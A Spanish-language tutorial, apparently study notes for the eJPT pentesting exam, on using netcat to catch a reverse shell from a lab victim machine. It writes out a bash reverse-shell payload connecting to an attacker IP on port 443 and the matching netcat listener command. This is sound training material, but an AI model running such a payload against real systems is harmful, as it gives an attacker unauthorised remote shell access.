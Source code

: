 
---
- TAG: #Introducción #hacking #basico
---
## Utilización de Netcat para el eJPT

En este apartado, vamos a hablar sobre un tema crucial para aprobar el examen eJPT: la utilización de netcat para establecer conexiones desde una máquina víctima hasta nuestra máquina atacante.

### Estableciendo Conexiones con Netcat

Para empezar, necesitaremos tener instalada nuestra máquina víctima, que puede ser cualquier distribución de Linux como Linux Mint, Kali Linux, Ubuntu, etc. Netcat nos permite establecer conectividad desde la máquina víctima a nuestra máquina atacante de manera eficiente.

#### Paso 1: Identificar la Dirección IP de la Máquina Atacante

Lo primero que debemos hacer es averiguar la dirección IP de nuestra máquina atacante. Esto lo logramos utilizando el comando `ifconfig` en la terminal:

```bash
ifconfig
```

#### Paso 2: Utilizar RevShells para Crear el Payload

Una herramienta útil para este proceso es [RevShells](https://www.revshells.com/). Esta página nos permite generar un payload para establecer una reverse shell.

1. **Seleccionar Bash -I**: En la página de RevShells, seleccionamos la opción `Bash -I`.
2. **Ingresar la Dirección IP y Puerto**: Ingresamos la dirección IP de nuestra máquina atacante y un puerto. Un puerto comúnmente utilizado es el `443`.

#### Paso 3: Generar y Ejecutar el Payload

El payload generado tendrá un aspecto similar a este:

```bash
sh -i >& /dev/tcp/192.168.100.42/443 0>&1
```

Donde `192.168.100.42` es la dirección IP de nuestra máquina atacante y `443` es el puerto.

#### Paso 4: Configurar Netcat en la Máquina Atacante

Antes de ejecutar el payload en la máquina víctima, debemos configurar nuestra máquina atacante para escuchar en el puerto especificado (en este caso, `443`). Utilizamos el siguiente comando en la terminal de la máquina atacante:

```bash
sudo nc -lvnp 443
```

#### Paso 5: Ejecutar el Payload en la Máquina Víctima

Una vez que nuestra máquina atacante está lista y escuchando, ejecutamos el payload en la máquina víctima. Esto se puede hacer directamente en la terminal de la víctima.

Si todo está configurado correctamente, recibirás una conexión en tu máquina atacante, estableciendo una reverse shell.

### Importancia de Netcat en la Explotación de Vulnerabilidades

La utilización de netcat es fundamental cuando explotamos vulnerabilidades y conseguimos ejecución remota de comandos. Si logramos inyectar un comando como el payload mencionado en la máquina víctima, obtendremos acceso remoto a dicha máquina, permitiéndonos realizar diversas acciones de pentesting.
